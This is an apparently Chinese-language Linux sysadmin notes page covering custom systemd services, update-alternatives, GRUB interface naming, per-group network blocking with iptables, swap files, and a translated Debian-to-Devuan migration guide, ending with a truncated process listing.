<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">[Unit]</span><br><span class="line"><span class="attribute">Description</span>=OpenBSD Secure Shell server</span><br><span class="line"><span class="attribute">After</span>=network.target auditd.service</span><br><span class="line"><span class="attribute">ConditionPathExists</span>=!/etc/ssh/sshd_not_to_be_run</span><br><span class="line">[Service]</span><br><span class="line"><span class="attribute">EnvironmentFile</span>=-/etc/default/ssh</span><br><span class="line"><span class="attribute">ExecStart</span>=/usr/sbin/sshd -D <span class="variable">$SSHD_OPTS</span></span><br><span class="line"><span class="attribute">ExecReload</span>=/bin/kill -HUP <span class="variable">$MAINPID</span></span><br><span class="line"><span class="attribute">KillMode</span>=process</span><br><span class="line"><span class="attribute">Restart</span>=on-failure</span><br><span class="line"><span class="attribute">RestartPreventExitStatus</span>=255</span><br><span class="line"><span class="attribute">Type</span>=notify</span><br><span class="line">[Install]</span><br><span class="line"><span class="attribute">WantedBy</span>=multi-user.target</span><br><span class="line"><span class="attribute">Alias</span>=sshd.service</span><br></pre></td></tr></table></figure>
<p>开始自己创建：</p>
<ol>
<li><p>创建文件：<code>vi ./YourServiceName.service</code></p>
</li>
<li><p>编辑文件：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Unit]</span></span><br><span class="line"><span class="attr">Description</span>=自定义的服务，用于开启启动/home/USER/.Templates下的script文件--<span class="number">2019.12</span>.<span class="number">18</span></span><br><span class="line"><span class="attr">After</span>=network.target</span><br><span class="line"><span class="comment"># 根据上面的配置，在 120 秒的时间间隔内，服务重启次数不能超过 3 次。如果服务崩溃超过五次，将不再允许它启动。</span></span><br><span class="line"><span class="attr">StartLimitIntervalSec</span>=<span class="number">120</span></span><br><span class="line"><span class="attr">StartLimitBurst</span>=<span class="number">3</span></span><br><span class="line"></span><br><span class="line"><span class="section">[Service]</span></span><br><span class="line"><span class="attr">ExecStart</span>=/home/<span class="variable">$USER</span>/.Templates/services/autorun.sh</span><br><span class="line"></span><br><span class="line"><span class="attr">Type</span>=forking</span><br><span class="line"><span class="comment"># 独立的tmp目录</span></span><br><span class="line"><span class="attr">PrivateTmp</span>=<span class="literal">True</span></span><br><span class="line"><span class="comment"># 是否在失败时重启</span></span><br><span class="line"><span class="attr">Restart</span>=<span class="literal">on</span>-failure</span><br><span class="line"><span class="attr">RestartSec</span>=<span class="number">8</span>s</span><br><span class="line"><span class="comment"># 用户</span></span><br><span class="line"><span class="attr">User</span>=xxx</span><br><span class="line"></span><br><span class="line"><span class="section">[Install]</span></span><br><span class="line"><span class="attr">WantedBy</span>=multi-user.target</span><br></pre></td></tr></table></figure>
</li>
<li><p>这里演示的运行脚本：<code>mkdir ~/.Templates/ &amp;&amp; mkdir ~/.Templates/services</code> </p>
<p><code>vi ~/.Template/services/autorun.sh</code></p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"><span class="comment"># 禁止所有IPv6流量</span></span><br><span class="line">ip6tables -A INPUT -j DROP</span><br><span class="line">ip6tables -A OUTPUT -j DROP</span><br></pre></td></tr></table></figure>
<p><code>chmod +x ~/.Template/services/autorun.sh</code></p>
</li>
<li><p>自行编辑脚本后。将service文件复制到/lib/systemd/system/</p>
<p><code>cp YourServiceName.service /lib/systemd/system/</code></p>
</li>
<li><p><code>systemctl deamon-reload</code> 就有显示我们自定义的服务了。</p>
</li>
</ol>
<h3 id="Update-alternatives设置软件版本偏好"><a href="#Update-alternatives设置软件版本偏好" class="headerlink" title="Update-alternatives设置软件版本偏好"></a>Update-alternatives设置软件版本偏好</h3><figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 切换默认java：</span></span><br><span class="line"><span class="comment"># 查看java连接  比如在/usr/bin/java</span></span><br><span class="line">whereis java</span><br><span class="line"><span class="comment"># 显示版本</span></span><br><span class="line"><span class="keyword">update</span>-alternatives <span class="comment">--display java</span></span><br><span class="line"><span class="comment"># 切换版本</span></span><br><span class="line"><span class="keyword">update</span>-alternatives <span class="comment">--config java</span></span><br><span class="line"><span class="comment"># 添加版本</span></span><br><span class="line"><span class="keyword">update</span>-alternatives <span class="comment">--install /usr/bin/java java [JAVA 11_HOME] [优先级，比如300]</span></span><br></pre></td></tr></table></figure>
<h3 id="Grub-Setting修改默认网卡命名规则"><a href="#Grub-Setting修改默认网卡命名规则" class="headerlink" title="Grub-Setting修改默认网卡命名规则"></a>Grub-Setting修改默认网卡命名规则</h3><p>如 <code>wlxxxxx</code> 改 <code>wlan0</code> ：</p>
<p><code>vi /etc/default/grub</code></p>
<p><code>`GRUB_CMDLINE_LINUX=&quot;&quot;</code>   改成  <code>GRUB_CMDLINE_LINUX=&quot;net.ifnames=0 biosdevname=0&quot;</code></p>
<p>然后更新GRUB：</p>
<p><code>grub-mkconfig -o /boot/grub/grub.cfg</code></p>
<h3 id="Addgroup禁止某些软件联网的方法"><a href="#Addgroup禁止某些软件联网的方法" class="headerlink" title="Addgroup禁止某些软件联网的方法"></a>Addgroup禁止某些软件联网的方法</h3><p>禁止某软件联网，可以新建一个无网络的组，然后让某软件在某用户下运行：</p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">sudo</span> <span class="string">addgroup</span> <span class="literal">no</span><span class="string">-internet</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">adduser</span> <span class="string">$USER</span> <span class="literal">no</span><span class="string">-internet</span>  <span class="comment">#我觉得这步不需要</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">iptables</span> <span class="string">-I</span> <span class="string">OUTPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">owner</span> <span class="string">--gid-owner</span> <span class="literal">no</span><span class="string">-internet</span> <span class="string">-j</span> <span class="string">DROP</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ip6tables</span> <span class="string">-I</span> <span class="string">OUTPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">owner</span> <span class="string">--gid-owner</span> <span class="literal">no</span><span class="string">-internet</span> <span class="string">-j</span> <span class="string">DROP</span></span><br><span class="line"><span class="comment">#Process you don't want to have internet access using sg or sudo -g (execute command as different group ID):</span></span><br><span class="line"><span class="string">sg</span> <span class="literal">no</span><span class="string">-internet</span> <span class="string">-c</span> <span class="string">"processFullPath args"</span></span><br></pre></td></tr></table></figure>
<h3 id="SwapFile——Linux交换文件代替交换分区"><a href="#SwapFile——Linux交换文件代替交换分区" class="headerlink" title="SwapFile——Linux交换文件代替交换分区"></a>SwapFile——Linux交换文件代替交换分区</h3><blockquote>
<p>BTRFS不适用，F2FS、XSF请用<code>dd</code>代替<code>fallocate</code></p>
</blockquote>
<p>创建：</p>
<p><code>fallocate -l 512M /swapfile</code></p>
<p><code>dd if=/dev/zero of=/swapfile bs=1M count=512</code></p>
<p>设置权限：</p>
<p><code>chmod 600 /swapfile</code></p>
<p>格式化：</p>
<p><code>mkswap /swapfile</code></p>
<p>启用：</p>
<p><code>swapon /swapfile</code></p>
<p>添加<code>fstab</code>自动挂载：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">/swapfile none swap defaults <span class="number">0</span> <span class="number">0</span></span><br></pre></td></tr></table></figure>
<p>卸载、删除：</p>
<figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">swapoff</span> <span class="string">-a</span></span><br><span class="line"><span class="attr">rm</span> <span class="string">-rf /swapfile</span></span><br></pre></td></tr></table></figure>
<p>最后更改<code>/etc/fstab</code></p>
<h3 id="从Debian-Buster迁移到Beowulf——一款没有Systemd的发行版"><a href="#从Debian-Buster迁移到Beowulf——一款没有Systemd的发行版" class="headerlink" title="从Debian Buster迁移到Beowulf——一款没有Systemd的发行版"></a>从Debian Buster迁移到Beowulf——一款没有Systemd的发行版</h3><p>原文：<a href="https://www.devuan.org/os/documentation/dev1fanboy/en/buster-to-beowulf" target="_blank" rel="noopener">https://www.devuan.org/os/documentation/dev1fanboy/en/buster-to-beowulf</a></p>
<h4 id="网络配置（可选）"><a href="#网络配置（可选）" class="headerlink" title="网络配置（可选）"></a>网络配置（可选）</h4><p>迁移时，您可以选择使用wicd还是手动配置网络。手动配置的优点是不需要dbus或网络管理器。对于远程迁移，您应该始终使用手动网络配置，否则很可能在迁移过程中失去网络访问权限。</p>
<p>使用网络管理器的优点是易于使用并具有GUI界面。此方法<strong>仅</strong>应用于不包括wicd安装的迁移说明。</p>
<blockquote>
<p>使用wicd网络管理器</p>
</blockquote>
<p>您首先需要安装wicd软件包。完整的软件包在这里用于提供gtk界面以及控制台的curses界面。</p>
<p><code>apt-get install wicd</code></p>
<p>网络管理器守护程序应在引导时停止并禁用。</p>
<p><code>service network-manager stop</code></p>
<p><code>update-rc.d -f network-manager remove</code></p>
<p>重新启动wicd守护程序，使其在管理网络中处于活动状态。</p>
<p><code>service wicd restart</code></p>
<p>现在，无线用户应该在其桌面环境中从wicd gtk客户端配置其网络。</p>
<blockquote>
<p>手动有线网络配置</p>
</blockquote>
<p>在较新的Debian发行版中，您将看到对应的直观界面名称，例如，<code>ens3</code>用于安全添加当前界面名称和直观设备名称的行。</p>
<p>请注意，移植后将找不到Debian风格的界面，因此将不会进行配置。</p>
<p>可以通过向<code>interfaces</code>文件添加配置行来管理有线连接。</p>
<p><code>editor /etc/network/interfaces</code></p>
<p>——自动网络配置</p>
<p>每当检测到链接时，这将自动配置网络。如有必要，请根据您的接口名称进行调整。</p>
<figure class="highlight apache"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute"><span class="nomarkup">allow</span></span>-hotplug eth0</span><br><span class="line"><span class="attribute">iface</span> eth0 inet dhcp</span><br><span class="line"></span><br><span class="line"><span class="attribute"><span class="nomarkup">allow</span></span>-hotplug ens3</span><br><span class="line"><span class="attribute">iface</span> ens3 inet dhcp</span><br></pre></td></tr></table></figure>
<p>——静态网络配置</p>
<p>或静态配置网络。</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="built_in">auto</span> eth0</span><br><span class="line">iface eth0 inet static</span><br><span class="line">        address <span class="number">192.168</span><span class="number">.1</span><span class="number">.2</span></span><br><span class="line">        netmask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span></span><br><span class="line">        gateway <span class="number">192.168</span><span class="number">.1</span><span class="number">.1</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">auto</span> ens3</span><br><span class="line">iface ens3 inet static</span><br><span class="line">        address <span class="number">192.168</span><span class="number">.1</span><span class="number">.2</span></span><br><span class="line">        netmask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span></span><br><span class="line">        gateway <span class="number">192.168</span><span class="number">.1</span><span class="number">.1</span></span><br></pre></td></tr></table></figure>
<blockquote>
<p>手动无线网络配置</p>
</blockquote>
<p>这类似于有线网络，除了您需要提供身份验证详细信息。如果需要自动网络配置，则应使用wicd网络管理器。</p>
<p>编辑接口文件以配置无线网络上的主机。</p>
<figure class="highlight elixir"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">root<span class="variable">@debian</span><span class="symbol">:~</span><span class="comment"># editor /etc/network/interfaces</span></span><br></pre></td></tr></table></figure>
<p>调整接口文件以适合您的接口和网络配置。</p>
<figure class="highlight apache"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute"><span class="nomarkup">allow</span></span>-hotplug wlan0</span><br><span class="line"><span class="attribute">iface</span> wlan0 inet dhcp</span><br><span class="line">        <span class="attribute">wpa</span>-ssid myssid</span><br><span class="line">        <span class="attribute">wpa</span>-psk mypassphrase</span><br></pre></td></tr></table></figure>
<h4 id="开始迁移"><a href="#开始迁移" class="headerlink" title="开始迁移"></a>开始迁移</h4><p>这些说明仅用于从Debian Buster发行版迁移。当迁移到Beowulf时，说明是针对您所来自的Debian版本的，仅应按照书面说明进行操作。</p>
<p>从Beowulf开始，您将在迁移时丢失网络管理器软件包。此处的解决方案是使用wicd网络管理器，但是如果您喜欢手动<a href="https://www.devuan.org/os/documentation/dev1fanboy/en/network-configuration.html" target="_blank" rel="noopener">网络配置，</a>则需要在继续之前完成此操作。</p>
<p>第一步是将sources.list更改为指向Beowulf存储库。</p>
<p><code>editor /etc/apt/sources.list</code></p>
<p>使您的sources.list看起来像所提供的那样。注释掉所有其他行。</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">deb</span> http://<span class="keyword">deb</span>.devuan.org/merged beowulf main</span><br><span class="line"><span class="keyword">deb</span> http://<span class="keyword">deb</span>.devuan.org/merged beowulf-updates main</span><br><span class="line"><span class="keyword">deb</span> http://<span class="keyword">deb</span>.devuan.org/merged beowulf-security main</span><br><span class="line">#deb http://<span class="keyword">deb</span>.devuan.org/merged beowulf-backports main</span><br></pre></td></tr></table></figure>
<p>现在，您必须从Beowulf存储库中更新软件包列表。APT最近的更改意味着不允许这样做，但是我们可以覆盖此行为。</p>
<p><code>apt-get update --allow-insecure-repositories</code></p>
<p>现在应该安装Devuan密钥环，以便可以对软件包进行身份验证。</p>
<p><code>apt-get install devuan-keyring --allow-unauthenticated</code></p>
<p>再次更新软件包列表，以便从此处开始对软件包进行身份验证。</p>
<p><code>apt-get update</code></p>
<p>如果要使用wicd网络管理器，则需要立即安装，否则升级将失败。</p>
<p><code>apt-get install wicd-gtk</code></p>
<p>升级您的软件包，以便您具有最新版本。请注意，这不会完成迁移。</p>
<p><code>apt-get upgrade</code></p>
<p>完成此操作后，需要安装eudev。请注意，如果您使用的是Gnome，它将被此命令删除，但可以在迁移后再次安装。</p>
<p><code>apt-get install eudev</code></p>
<p>已知最后一个命令会导致程序包中断，但是我们将在迁移过程中解决此问题。</p>
<p><code>apt-get -f install</code></p>
<p>需要重新启动才能将<code>sysvinit</code>更改为<code>pid1</code>。</p>
<p><code>reboot</code></p>
<p>现在，您可以正确执行迁移了。</p>
<p><code>apt-get dist-upgrade</code></p>
<p>我们已经迁移到Devuan，因此现在不需要与systemd相关的软件包。</p>
<p><code>apt-get purge systemd libnss-systemd</code></p>
<p>如果此时您没有台式机，则应立即安装一个。Devuan中的默认值为XFCE。</p>
<p><code>apt-get install task-xfce-desktop</code></p>
<p>或者，如果您想继续使用它，可以安装Gnome。</p>
<p><code>apt-get install task-gnome-desktop</code></p>
<p>现在，您可以删除迁移过程中孤立的所有软件包，以及从Debian安装中遗留下来的所有不可用的档案。</p>
<p><code>apt-get autoremove --purge</code>    <code>apt-get autoclean</code></p>
<h2 id="其他（杂记）"><a href="#其他（杂记）" class="headerlink" title="其他（杂记）"></a>其他（杂记）</h2><p>Linux压力测试：<code>stress --cpu 4 --io 18 --vm 4 --vm-bytes 7000M --timeout 1m</code></p>
<p>华为麒麟9908核ARM+银河麒麟<code>ps aux</code>进程</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br><span class="line">172</span><br><span class="line">173</span><br><span class="line">174</span><br><span class="line">175</span><br><span class="line">176</span><br><span class="line">177</span><br><span class="line">178</span><br><span class="line">179</span><br><span class="line">180</span><br><span class="line">181</span><br><span class="line">182</span><br><span class="line">183</span><br><span class="line">184</span><br><span class="line">185</span><br><span class="line">186</span><br><span class="line">187</span><br><span class="line">188</span><br><span class="line">189</span><br><span class="line">190</span><br><span class="line">191</span><br><span class="line">192</span><br><span class="line">193</span><br><span class="line">194</span><br><span class="line">195</span><br><span class="line">196</span><br><span class="line">197</span><br><span class="line">198</span><br><span class="line">199</span><br><span class="line">200</span><br><span class="line">201</span><br><span class="line">202</span><br><span class="line">203</span><br><span class="line">204</span><br><span class="line">205</span><br><span class="line">206</span><br><span class="line">207</span><br><span class="line">208</span><br><span class="line">209</span><br><span class="line">210</span><br><span class="line">211</span><br><span class="line">212</span><br><span class="line">213</span><br><span class="line">214</span><br><span class="line">215</span><br><span class="line">216</span><br><span class="line">217</span><br><span class="line">218</span><br><span class="line">219</span><br><span class="line">220</span><br><span class="line">221</span><br><span class="line">222</span><br><span class="line">223</span><br><span class="line">224</span><br><span class="line">225</span><br><span class="line">226</span><br><span class="line">227</span><br><span class="line">228</span><br><span class="line">229</span><br><span class="line">230</span><br><span class="line">231</span><br><span class="line">232</span><br><span class="line">233</span><br><span class="line">234</span><br><span class="line">235</span><br><span class="line">236</span><br><span class="line">237</span><br><span class="line">238</span><br><span class="line">239</span><br><span class="line">240</span><br><span class="line">241</span><br><span class="line">242</span><br><span class="line">243</span><br><span class="line">244</span><br><span class="line">245</span><br><span class="line">246</span><br><span class="line">247</span><br><span class="line">248</span><br><span class="line">249</span><br><span class="line">250</span><br><span class="line">251</span><br><span class="line">252</span><br><span class="line">253</span><br><span class="line">254</span><br><span class="line">255</span><br><span class="line">256</span><br><span class="line">257</span><br><span class="line">258</span><br><span class="line">259</span><br><span class="line">260</span><br><span class="line">261</span><br><span class="line">262</span><br><span class="line">263</span><br><span class="line">264</span><br><span class="line">265</span><br><span class="line">266</span><br><span class="line">267</span><br><span class="line">268</span><br><span class="line">269</span><br><span class="line">270</span><br><span class="line">271</span><br><span class="line">272</span><br><span class="line">273</span><br><span class="line">274</span><br><span class="line">275</span><br><span class="line">276</span><br><span class="line">277</span><br><span class="line">278</span><br><span class="line">279</span><br><span class="line">280</span><br><span class="line">281</span><br><span class="line">282</span><br><span class="line">283</span><br><span class="line">284</span><br><span class="line">285</span><br><span class="line">286</span><br><span class="line">287</span><br><span class="line">288</span><br><span class="line">289</span><br><span class="line">290</span><br><span class="line">291</span><br><span class="line">292</span><br><span class="line">293</span><br><span class="line">294</span><br><span class="line">295</span><br><span class="line">296</span><br><span class="line">297</span><br><span class="line">298</span><br><span class="line">299</span><br><span class="line">300</span><br><span class="line">301</span><br><span class="line">302</span><br><span class="line">303</span><br><span class="line">304</span><br><span class="line">305</span><br><span class="line">306</span><br><span class="line">307</span><br><span class="line">308</span><br><span class="line">309</span><br><span class="line">310</span><br><span class="line">311</span><br><span class="line">312</span><br><span class="line">313</span><br><span class="line">314</span><br><span class="line">315</span><br><span class="line">316</span><br><span class="line">317</span><br><span class="line">318</span><br><span class="line">319</span><br><span class="line">320</span><br><span class="line">321</span><br><span class="line">322</span><br><span class="line">323</span><br><span class="line">324</span><br><span class="line">325</span><br><span class="line">326</span><br><span class="line">327</span><br><span class="line">328</span><br><span class="line">329</span><br><span class="line">330</span><br><span class="line">331</span><br><span class="line">332</span><br><span class="line">333</span><br><span class="line">334</span><br><span class="line">335</span><br><span class="line">336</span><br><span class="line">337</span><br><span class="line">338</span><br><span class="line">339</span><br><span class="line">340</span><br><span class="line">341</span><br><span class="line">342</span><br><span class="line">343</span><br><span class="line">344</span><br><span class="line">345</span><br><span class="line">346</span><br><span class="line">347</span><br><span class="line">348</span><br><span class="line">349</span><br><span class="line">350</span><br><span class="line">351</span><br><span class="line">352</span><br><span class="line">353</span><br><span class="line">354</span><br><span class="line">355</span><br><span class="line">356</span><br><span class="line">357</span><br><span class="line">358</span><br><span class="line">359</span><br><span class="line">360</span><br><span class="line">361</span><br><span class="line">362</span><br><span class="line">363</span><br><span class="line">364</span><br><span class="line">365</span><br><span class="line">366</span><br><span class="line">367</span><br><span class="line">368</span><br><span class="line">369</span><br><span class="line">370</span><br><span class="line">371</span><br><span class="line">372</span><br><span class="line">373</span><br><span class="line">374</span><br><span class="line">375</span><br><span class="line">376</span><br><span class="line">377</span><br><span class="line">378</span><br><span class="line">379</span><br><span class="line">380</span><br><span class="line">381</span><br><span class="line">382</span><br><span class="line">383</span><br><span class="line">384</span><br><span class="line">385</span><br><span class="line">386</span><br><span class="line">387</span><br><span class="line">388</span><br><span class="line">389</span><br><span class="line">390</span><br><span class="line">391</span><br><span class="line">392</span><br><span class="line">393</span><br><span class="line">394</span><br><span class="line">395</span><br><span class="line">396</span><br><span class="line">397</span><br></pre></td><td class="code"><pre><span class="line">USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND</span><br><span class="line">root           <span class="number">1</span>  <span class="number">0.6</span>  <span class="number">0.1</span> <span class="number">172068</span> <span class="number">14148</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">08</span> /sbin/init splash</span><br><span class="line">root           <span class="number">2</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kthreadd]</span><br><span class="line">root           <span class="number">3</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rcu_gp]</span><br><span class="line">root           <span class="number">4</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rcu_par_gp]</span><br><span class="line">root           <span class="number">6</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">0</span>:<span class="number">0</span>H-wdt_wq]</span><br><span class="line">root           <span class="number">7</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">02</span> [kworker/u16:<span class="number">0</span>-memlat_wq]</span><br><span class="line">root           <span class="number">8</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mm_percpu_wq]</span><br><span class="line">root           <span class="number">9</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">0</span>]</span><br><span class="line">root          <span class="number">10</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> [rcu_preempt]</span><br><span class="line">root          <span class="number">11</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rcu_sched]</span><br><span class="line">root          <span class="number">12</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rcu_bh]</span><br><span class="line">root          <span class="number">13</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> [migration/<span class="number">0</span>]</span><br><span class="line">root          <span class="number">14</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">02</span> [kworker/<span class="number">0</span>:<span class="number">1</span>-events]</span><br><span class="line">root          <span class="number">15</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">0</span>]</span><br><span class="line">root          <span class="number">16</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">1</span>]</span><br><span 